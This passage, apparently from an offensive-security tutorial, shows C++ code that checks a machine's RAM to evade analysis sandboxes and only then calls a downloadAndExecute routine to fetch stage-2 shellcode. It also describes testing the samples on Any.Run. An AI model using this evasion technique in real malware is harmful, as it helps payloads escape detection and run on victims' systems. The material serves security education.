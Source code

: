 ```cpp
BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```

This code can be broken down into the following steps:

1. We're creating a new function (memoryCheck) that will return True or False.
2. We use the previous code from above to get the size of the system memory.
3. We check if the system memory is greater than 5GB; if it is true, we return TRUE; if false, we return FALSE.
4. The value returned from the function determines if we download and execute stage 2 or not.

**Testing our Code**

Now that we have finished the second of our third Sandbox Evasion method,  it is important that we test it to ensure that it works. To do so, we  are going to upload our files to [Any.Run](http://any.run/)

- [One with the Memory Check function](https://app.any.run/tasks/e2f6a64b-02ef-43ca-bea5-e724b234001c)
- [One without the Memory Check function](https://app.any.run/tasks/7d06fc67-35c9-45f5-8865-af9dd6486075)

Looking at the two samples side by side shows some interesting differences; in  the first submission, our memory check function works without any issue  and gracefully exits the program when it notices the device has less  than 5GB of RAM.
